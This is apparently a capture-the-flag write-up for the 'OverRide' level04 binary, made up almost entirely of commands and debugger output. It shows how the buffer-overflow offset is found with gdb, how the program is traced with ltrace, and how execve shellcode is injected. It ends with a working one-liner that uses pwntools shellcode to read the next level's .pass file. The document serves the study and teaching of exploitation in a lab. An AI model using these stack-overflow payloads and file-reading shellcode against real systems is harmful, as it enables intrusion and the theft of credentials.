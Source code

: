 <pre>
$> gdb ./level04 
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
gdb-peda$ r < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA')
Starting program: /home/alarm/42/override/level04/Ressources/level04 < <(echo 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA')
[----------------------------------registers-----------------------------------]
ESP: 0xffffd5a0 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
<strong>EIP: 0x71414154 ('TAAq')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x71414154
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x71414154 in ?? ()
gdb-peda$ pattern offset TAAq
<strong>TAAq found at offset: 156</strong>
</pre>

<pre>
$> echo a | ltrace -f ./level04 1>&-
[pid 1737] \_\_libc_start_main(0x80486c8, 1, -10540, 0x8048830, 0x80488a0 <unfinished ...>
[pid 1737] signal(14, 0x0804868f)                                      = NULL
[pid 1737] alarm(60)                                                   = 0
[pid 1737] fork()                                                      = 1738
[pid 1737] wait(0xffffd59c <unfinished ...>
[pid 1738] <... fork resumed> )                                        = 0
[pid 1738] prctl(1, 1, 0, 0xf7e2fe44, 2944)                            = 0
[pid 1738] ptrace(0, 0, 0, 0, 2944)                                    = -1
[pid 1738] puts("Give me some shellcode, k")                           = 26
<strong>[pid 1738] gets(-10848, 0, 0, 0, 2944)                                 = -10848</strong>
[pid 1738] +++ exited (status 0) +++
[pid 1737] --- SIGCHLD (Child exited) ---
[pid 1737] <... wait resumed> )                                        = 1738
[pid 1737] puts("child is exiting...")                                 = 20
[pid 1737] +++ exited (status 0) +++
$> printf '%x\n' -10848
ffffffff<strong>ffffd5a0</strong>
</pre>

<pre>
level04@OverRide:~$ (python -c "import struct; print('\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80' + 'A' * (156 - 21) + struct.pack('\<I', 0xffffd5a0))") | ./level04 
Give me some shellcode, k
no exec() for you
</pre>

<pre>
>>> pwn.asm(pwn.shellcraft.i386.linux.cat('/home/users/level05/.pass'))b'jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80'
>>> len('jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80')
62
</pre>

```
(python -c "import struct; print('jsh.pashl05/hlevehers/he/ush/hom\x89\xe31\xc91\xd2j\x05X\xcd\x80j\x01[\x89\xc11\xd2h\xff\xff\xff\x7f^1\xc0\xb0\xbb\xcd\x80' + 'A' * (156 - 62) + struct.pack('<I', 0xffffd5a0))") | ./level04
```
